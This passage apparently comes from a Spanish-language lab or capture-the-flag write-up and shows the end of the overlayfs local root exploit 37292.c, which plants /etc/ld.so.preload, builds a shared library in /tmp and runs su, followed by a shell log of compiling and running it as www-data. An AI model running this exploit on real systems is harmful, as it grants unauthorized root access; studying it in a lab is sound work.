 ```c

fprintf(stderr,"/etc/ld.so.preload created\n");

fprintf(stderr,"creating shared library\n");

lib = open("/tmp/ofs-lib.c",O_CREAT|O_WRONLY,0777);

write(lib,LIB,strlen(LIB));

close(lib);

lib = system("cc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");

if(lib != 0) {

fprintf(stderr,"couldn't create dynamic library\n");

exit(-1);

}

write(fd,"/tmp/ofs-lib.so\n",16);

close(fd);

system("rm -rf /tmp/ns_sploit /tmp/ofs-lib.c");

execl("/bin/su","su",NULL);

}
```

Compilamos, damos permisos de ejecución y lo corremos.

```bash
www-data@ubuntu:/dev/shm$ cc 37292.c -o privesc.out
37292.c:91:1: warning: control may reach end of non-void function [-Wreturn-type]
}
^
37292.c:103:12: warning: implicit declaration of function 'unshare' is invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
37292.c:108:17: warning: implicit declaration of function 'clone' is invalid in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
37292.c:114:13: warning: implicit declaration of function 'waitpid' is invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
37292.c:124:5: warning: implicit declaration of function 'wait' is invalid in C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
www-data@ubuntu:/dev/shm$ chmod +x privesc.out 
www-data@ubuntu:/dev/shm$ ./privesc.out 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
```